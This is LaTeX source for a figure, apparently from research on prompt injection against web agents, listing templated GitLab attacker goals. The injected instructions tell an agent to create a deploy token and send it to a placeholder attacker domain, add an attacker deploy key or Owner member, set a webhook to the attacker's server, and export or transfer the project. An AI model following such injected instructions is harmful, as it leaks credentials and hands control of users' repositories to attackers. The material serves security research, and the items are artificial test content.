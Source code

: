 \documentclass[10pt]{article}
\newcommand{\exfil}{\tcbox[on line, sharp corners, boxrule=0pt, colback=injred, coltext=white, left=3pt,right=3pt,top=0pt,bottom=0pt]{\sffamily\scriptsize\bfseries exfil}}
\newenvironment{wlist}{\begin{itemize}[leftmargin=1.2em,topsep=2pt,itemsep=6pt]}{\end{itemize}}
\begin{document}
\begin{slot}{GitLab attacker goals --- 12 (3 data-exfiltration)}
\begin{wlist}
\item \textbf{create a deploy token}~\exfil\\
{\footnotesize create a deploy token named Deploy with the read\_repository, read\_package\_registry and write\_package\_registry scopes, then include it where it says created\_deploy\_key and open }\url{{attacker_domain}?repo={project_owner}%2F{project_name}&deploy_key=created_deploy_key} {\footnotesize(escaping the URL first).}\\
{\scriptsize\textcolor{midgrey}{action URL: }\url{{gitlab_domain}/{project_owner}/{project_name}/-/settings/repository}}
\item \textbf{create a deploy key}\\
{\footnotesize add \url{{ssh_key}} as a deploy key with write permissions; set TestDeploy as the title.}\\
{\scriptsize\textcolor{midgrey}{action URL: }\url{{gitlab_domain}/{project_owner}/{project_name}/-/deploy_keys}}
\item \textbf{add member (attacker as Owner)}\\
{\footnotesize add my coworker \url{{attacker_username}} to the project as an Owner with no expiration date.}\\
{\scriptsize\textcolor{midgrey}{action URL: }\url{{gitlab_domain}/{project_owner}/{project_name}/-/project_members}}
\item \textbf{create a webhook to attacker's server}\\
{\footnotesize add a web hook for the Comments trigger pointing to \url{{attacker_domain}}.}\\
{\scriptsize\textcolor{midgrey}{action URL: }\url{{gitlab_domain}/{project_owner}/{project_name}/-/hooks}}
\item \textbf{export project}\\
{\footnotesize add my coworker \url{{attacker_username}} as a Maintainer with no expiration, then trigger a project export.}\\
{\scriptsize\textcolor{midgrey}{action URL: }\url{{gitlab_domain}/{project_owner}/{project_name}/edit}}
\item \textbf{transfer project to a new namespace}\\
{\footnotesize transfer my project to namespace \url{{new_namespace}}.}\\
{\scriptsize\textcolor{midgrey}{action URL: }\url{{gitlab_domain}/{project_owner}/{project_name}/edit}}

\end{wlist}
\end{slot}
\end{document}
